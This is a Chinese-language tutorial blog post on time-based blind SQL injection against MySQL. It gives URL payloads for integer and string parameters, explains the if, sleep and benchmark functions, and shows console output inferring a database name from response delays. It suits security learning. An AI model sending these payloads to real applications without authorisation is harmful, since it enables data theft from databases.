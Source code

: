 +++
title = "SQL注入之基于时间的注入"
topics = ["Pentest"]
tags = ["injection"]
description = "基于时间的SQL注入"
date = "2016-06-23T10:10:27+08:00"
draft = false
+++

### 0x00 特点
```
当页面存在注入，但是没有显示位且不管怎么测试返回页面都没有变化，此时可以使用基于时间的盲注进行注入。
其实只要存在SQL注入就可以使用基于时间的盲注，利用范围比较广泛，但是可能受到网络带宽等因素的影响。
```

### 0x01 利用方式
```
整型注入的话可以直接: ?id=if(1=1,sleep(2),1)
字符型的话需要闭合: ?id=2' and if(1=1,sleep(2),1) and '1
```

### 0x02 相关函数
* if(条件, 值1, 值2)  
当条件为真时返回值1，条件为假时返回值2

* sleep()  
sleep()睡眠两秒

* benchmark(count, expr)  
benchmark是用于测试函数性能的，它是将表达式expr执行count次，执行次数越多耗费时间越久

### 0x03 基于时间的注入payload
```
mysql> select if((select database()) like "rte%",sleep(2),666);
+---------------------------------------------------+
| if((select database()) like "rte%",sleep(2),666) |
+---------------------------------------------------+
|                                                 0 |
+---------------------------------------------------+
1 row in set (2.00 sec)

mysql> select if((select database())="rteaaa",sleep(2),666);
+-----------------------------------------------+
| if((select database())="rtest1",sleep(2),666) |
+-----------------------------------------------+
|                                           666 |
+-----------------------------------------------+
1 row in set (0.00 sec)

mysql> select if((select database())="rtest",sleep(2),666);
+----------------------------------------------+
| if((select database())="rtest",sleep(2),666) |
+----------------------------------------------+
|                                            0 |
+----------------------------------------------+
1 row in set (2.00 sec)
```
```
mysql> select id,name,title from msg where id=if(1=1,benchmark(10000000,md5(11)),1);
Empty set (2.32 sec)

mysql> select id,name,title from msg where id=if(1=2,benchmark(10000000,md5(11)),1);
+----+-------+-------+
| id | name  | title |
+----+-------+-------+
|  1 | reber | first |
+----+-------+-------+
1 row in set (0.00 sec)
```

### 0x04 简单注入

1. 判断闭合字符(and 1=1／and 1=2)
![得到闭合字符](/img/post/sqli9-get-closed-character-1.png)
![得到闭合字符](/img/post/sqli9-get-closed-character-2.png)

2. 得到数据库名字
![得到数据库名字](/img/post/sqli9-get-database.png)
